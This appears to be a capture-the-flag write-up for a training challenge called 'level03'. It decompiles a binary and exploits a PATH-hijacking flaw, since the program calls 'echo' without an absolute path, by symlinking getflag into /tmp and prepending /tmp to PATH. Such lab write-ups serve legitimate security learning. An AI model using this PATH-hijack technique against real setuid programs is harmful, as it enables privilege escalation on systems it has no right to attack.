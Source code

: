 # Level03

Download the level03 file on your local machine.
>`scp -P 4242 level03@<VM address>:level03 .`

Use Ghidra to decompile the code.
The program makes an unsecure to `echo` without specifying the absolut pat. We'll create a symlink to `getflag` and put it first in the `$PATH`.
>`ln -s /bin/getflag /tmp/echo`

>`export PATH="/tmp:$PATH"`

Get the flag.
>`./level03`
